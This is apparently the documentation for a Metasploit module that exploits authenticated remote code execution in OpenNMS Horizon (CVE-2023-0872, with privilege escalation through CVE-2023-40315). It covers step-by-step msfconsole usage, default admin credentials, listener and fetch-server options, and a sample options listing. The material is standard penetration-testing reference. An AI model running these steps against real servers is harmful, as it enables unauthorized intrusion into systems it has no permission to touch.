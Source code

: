 ## Verification Steps
1. Start `msfconsole`
2. Do: `use exploit/linux/http/opennms_horizon_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set FETCH_SRVHOST [IP]`
6. Do: `exploit`

## Options
### TARGETURI
The base path to OpenNMS. The default value is `/`.

### USERNAME
Username to authenticate with. The default value is `admin`

### PASSWORD
Password to authenticate with. The default value is `admin`


## Advanced Options
### PRIVESC_SAVE_DELAY
The time in seconds to wait for privesc changes to go into effect. This is used only when escalating privileges via CVE-2023-40315.
The default value is `3`.

## Targets
```
Id  Name
--  ----
0   Linux
```

## Scenarios
### OpenNMS Horizon 31.0.7 - Exploitation via CVE-2023-0872
```
msf exploit(linux/http/opennms_horizon_authenticated_rce) > options

Module options (exploit/linux/http/opennms_horizon_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   rest             yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.91.196   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8980             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /opennms/        yes       The base path to OpenNMS
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   rest             yes       Username to authenticate with                                                                                                                                                              
   VHOST                       no        HTTP server virtual host


```